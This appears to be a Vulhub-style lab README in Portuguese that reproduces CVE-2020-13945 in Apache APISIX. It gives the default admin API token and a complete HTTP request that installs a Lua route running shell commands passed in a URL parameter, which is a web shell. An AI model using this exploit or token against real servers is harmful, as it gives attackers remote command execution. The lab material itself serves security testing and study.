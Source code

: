 # Apache APISIX's Admin API Vulnerabilidade de token de acesso padrão (CVE-2020-13945)

[中文版本(Chinese version)](README.zh-cn.md)

Apache APISIX é um gateway de API dinâmico, em tempo real e de alto desempenho. Apache APISIX tem um token de API embutido padrão `edd1c9f034335f136f87ad84b625c8f1` que pode ser usado para acessar toda a API de administração, o que leva à execução remota do código LUA através do parâmetro `script` adicionado na versão 2.x.

Referências:

- https://apisix.apache.org/docs/apisix/getting-started
- https://github.com/apache/apisix/pull/2244
- https://seclists.org/oss-sec/2020/q4/187

## Ambiente de vulnerabilidade

Execute o seguinte comando para iniciar um servidor Apache APISIX 2.11.0 (esta vulnerabilidade não foi corrigida até a versão mais recente, pode não ser considerada correção pelo fornecedor):

```
docker-compose up -d
```

Depois que o servidor for iniciado, você verá uma página de erro 404 padrão em `http://your-ip:9080`.

## Reprodução de vulnerabilidade

Adicione uma nova regra de rota ao APISIX por meio da API de administrador com o token padrão:

```
POST /apisix/admin/routes HTTP/1.1
Host: your-ip:9080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
X-API-KEY: edd1c9f034335f136f87ad84b625c8f1
Content-Type: application/json
Content-Length: 406

{
    "uri": "/attack",
"script": "local _M = {} \n function _M.access(conf, ctx) \n local os = require('os')\n local args = assert(ngx.req.get_uri_args()) \n local f = assert(io.popen(args.cmd, 'r'))\n local s = assert(f:read('*a'))\n ngx.say(s)\n f:close()  \n end \nreturn _M",
    "upstream": {
        "type": "roundrobin",
        "nodes": {
            "example.com:80": 1
        }
    }
}
```

![](1.png)

Então, use essa rota para executar comandos arbitrários:

```
http://your-ip:9080/attack?cmd=id
```

![](2.png)
